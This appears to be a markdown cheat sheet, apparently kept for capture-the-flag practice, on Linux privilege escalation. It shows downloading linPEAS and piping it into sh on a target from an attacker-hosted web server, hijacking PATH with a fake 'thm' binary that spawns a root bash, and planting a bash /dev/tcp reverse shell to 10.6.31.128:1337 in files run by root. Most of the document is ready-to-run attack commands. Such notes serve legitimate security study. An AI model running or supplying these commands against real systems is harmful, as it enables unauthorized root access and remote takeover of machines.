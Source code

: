 # Privilege Escalation:

## linPeas:
  1. ```wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh```

  2. Once the linpeas.sh is downloaded, we can make our own webserver for the target machine to access. That way we can run the
     linpeas script in the target machine:
        ```python3 -m http.server 80```
  3. From the target machine, we can download the linpeas script from the attacker machine's web server with a curl command:
        ```curl http://<Your_Kali_VM_IP>/linpeas.sh | sh```

  4. make sure to modify permissions to allow us to execute linpeas.sh:
    ```chmod +x linpeas.sh```
  5. GTFOBins: after linpeas has found a PrivEsc vulnerability, GTFOBins can be used to find out how to exploit the PrivEsc vulnerability:
  https://gtfobins.github.io/

## PATH PrivEsc:
1. Find a binary in the system that calls for the execution of an easily replicatable file. Let's say a binary/script calls for a file called 'thm', we can create a copy of the 'thm' file that will be found first in the PATH variable.
2. Find a writeable directory using ```find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u```
3. Choose one of the writeable directories and add that chosen directory to the path variable: ```export PATH=/tmp:$PATH``` in the case we chose tmp as the writeable directory.
4. In that writeable directory, add a file with the same name as the one you want to copy, in this case 'thm'.
5. To create an executable file use ```echo "/bin/bash" > thm```
6. Allow it to be executed with ```chmod 777 thm```
7. Go back and run the executable and you will be given a shell with root.

## Reverse Shells
1. use ```id``` command to check which groups the user is a part of.
2. Once we find the groups the a user is a part of, we can use
    ```find / -group "groupName" -type f 2>/dev/null```
to find the files that are owned by the group/user
3. in that file, add a script from ```https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet``` that gives a reverse shell. In case bash is used for the reverse shell, use ```bash -c 'bash -i >&  /dev/tcp/10.6.31.128/1337 0>&1'```
4. Save the file with the new script.
5. If the file that you just manipulated is only run by a user with root privileges, find out when and how to run that file. Sometimes there are certain files that are ran on startup or ssh login as root.

